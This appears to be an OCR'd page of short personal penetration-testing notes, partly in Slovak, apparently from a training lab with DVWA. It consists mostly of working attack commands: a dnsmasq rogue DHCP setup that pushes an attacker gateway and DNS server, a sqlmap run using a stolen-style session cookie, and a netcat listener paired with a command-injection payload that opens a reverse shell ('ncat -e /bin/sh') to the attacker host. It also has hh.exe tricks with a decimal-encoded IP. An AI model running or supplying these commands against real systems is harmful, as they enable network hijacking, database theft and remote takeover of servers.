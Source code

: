 ```

dnsmasq --dhcp-range=eth1,10.0.0.100,10.0.0.120,2h --dhcp-option=3,10.0.0.170 --dhcp-option=6,10.0.0.40 --dhcp-option=15,'hack.ed'

#vypnutie
killall dnsmasq
netstat -naup
```

# WEB

## CROSS SITE REQUEST FORGERY

get/post medzi strankou ak nema csrf token

## CROSS SITE SCRIPTING

## SQL INJECTION

```
sqlmap --cookie="security=low; PHPSESSID=rjfi94e9jfgdhd31o9tpa1k9p5" -u "http://gameover/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#"
```

### command execution

kali:
```
nc -lvvp 99
```

stranka:
```
ping -c 8.8.8.8 | ncat ...
ping -c `ncat -e /bin/sh 10.0.0.170 99`
```

## otvorit stranku v IE

```
hh http://kali.cz
```

adresa v 10 sustave:
```
hh http://167772330
```

# Android
